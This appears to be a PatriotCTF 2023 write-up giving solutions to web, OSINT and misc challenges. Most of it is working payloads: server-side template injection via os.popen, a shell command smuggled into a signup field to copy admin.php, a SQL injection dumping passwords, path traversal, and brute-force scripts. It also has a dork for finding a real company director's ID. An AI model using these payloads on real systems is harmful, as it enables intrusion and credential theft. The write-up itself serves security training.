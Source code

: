 # PatriotCTF 2023

# Web

## Pick Your Starter

```jsx
// filter ' " [ bullutin
http://chal.pctf.competitivecyber.club:5555/{{cycler.__init__.__globals__.os.popen(request.args.l).read()}}?a=-config&l=ls%20/
```

## Checkmate

Use the script provided below to generate a list of legitimate passwords. These passwords can then be used in a brute force attack to ultimately retrieve the FLAG.

```jsx

// charsets
const chars = "abcdefghijklmnopqrstuvwxyz";

// 
function isValidPasswordCombo(arr) {
    var add = arr[0].charCodeAt(0) & arr[2].charCodeAt(0);
    var or = arr[1].charCodeAt(0) | arr[4].charCodeAt(0);
    var xor = arr[3].charCodeAt(0) ^ arr[5].charCodeAt(0);
    return (add === 0x60) && (or === 0x61) && (xor === 0x6);
}

// Check whether the sum of passwords is 0xbb
function isSumValid(pwd) {
    let sum = 0;
    for (let i = 0; i < pwd.length; i += 6) {
        const segment = pwd.slice(i, i + 6);
        var add = segment[0].charCodeAt(0) & segment[2].charCodeAt(0);
        var or = segment[1].charCodeAt(0) | segment[4].charCodeAt(0);
        var xor = segment[3].charCodeAt(0) ^ segment[5].charCodeAt(0);
        sum += add + or - xor;
    }
    return sum === 0xbb;
}

// dig out passwords 
for (let i = 0; i < chars.length; i++) {
    for (let j = 0; j < chars.length; j++) {
        for (let k = 0; k < chars.length; k++) {
            for (let l = 0; l < chars.length; l++) {
                for (let m = 0; m < chars.length; m++) {
                    for (let n = 0; n < chars.length; n++) {
                        const arr = [chars[i], chars[j], chars[k], chars[l], chars[m], chars[n]];
                        if (isValidPasswordCombo(arr)) {
                            const pwd = arr.join('');
                            if (isSumValid(pwd)) {
                                console.log(pwd);
                                  
                            }
                        }
                    }
                }
            }
        }
    }
```

```jsx
POST http://chal.pctf.competitivecyber.club:9096/check.php

password=sadsau
```

## Flower shop

```jsx
# Step 1
POST /modules/signup.inc.php HTTP/1.1

uid=2h0ng71&pwd=admin&wh=<@urlencode_all>https://webhook.site/60e2905c-53fd-4229-b367-9cd730ed628a;bash${IFS}-c${IFS}"cat<../admin.php>/var/www/html/123aaaazzzz.txt";<@/urlencode_all>&submit=

# Step 2
POST /modules/reset.inc.php HTTP/1.1

uid=2h0ng71&token=1c7fbe4fd0281e0f32d78c8507a6a84b&submit=
```

## One-for-All

```jsx
Flag 1:
GET / HTTP/1.1
Host: chal.pctf.competitivecyber.club:9090
Cookie: name=admin

Flag 2:
/user?id=0

Flag 3:
POST /

username= 1" union select 1,2,3,    (SELECT GROUP_CONCAT(password) from accounts);--

Flag 4:
GET /secretsforyou/..;/ HTTP/1.1

```

# OSINT

## ****Rouge Access Point****

[https://www.osintcurio.us/2019/01/15/tracking-all-the-wifi-things/](https://www.osintcurio.us/2019/01/15/tracking-all-the-wifi-things/)

[https://wigle.net/](https://wigle.net/)

[https://wigle.net/search#detailSearch](https://wigle.net/search#detailSearch)

## Karter

First step → Leveraging Google dork to get the name of the director and its PIN:

```jsx
allintext: "flipkart" "2021" "director" & before:2022-01-01 after:2020-12-01
```

Second step → find DIN at:

```jsx
https://www.tofler.in/flipkart-internet-private-limited/company/U51109KA2012PTC066107/directors
https://www.tofler.in/jonathan-marshall-collins/director/09075331
```

Third step → Ask chatgpt how to get director information from official website in India:

```jsx

Enquiry: I want to obtain information about the Director Identification Number from the government website in India. Where can I find it?

Answer: https://www.mca.gov.in/mcafoportal/enquireDIN.do
```

# Misc

## ****Flag Finder****

```jsx
from pwn import *
import time

context.log_level = 'error'

def guess_password():
    charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIGKLMNOPQRSTUVWXYZ'
    base_password = ['0'] * 13
    print(f"[+] Base password: {''.join(base_password)}")

    count = 5
    for i in range(0, 13):
        print(f'[+] Guessing character: {i}')

        best_char = '0'
        for char in charset:
            base_password[i] = char
            password_guess = 'pctf{' + ''.join(base_password) + '}'
            
            print(f"[+] Trying password: {password_guess}")

            correct_len = test(password_guess)
            if correct_len > count:
                count += 1
                print(f"[+] Found character: {base_password}")
                break
            
    return ''.join(base_password)

def test(password):
    sh = remote('chal.pctf.competitivecyber.club', 4757)
    sh.recvuntil('What is the password: ')
    start_time = time.time()
    sh.sendline(password)
    res =  sh.recvuntil(b'There\'s been an error')

    correct_len = (len(res.split(b'\n'))-1)/2
    print(correct_len)

    duration = time.time() - start_time

    sh.close()

    return correct_len

password = guess_password()
print(f"Final password: {password}")
```
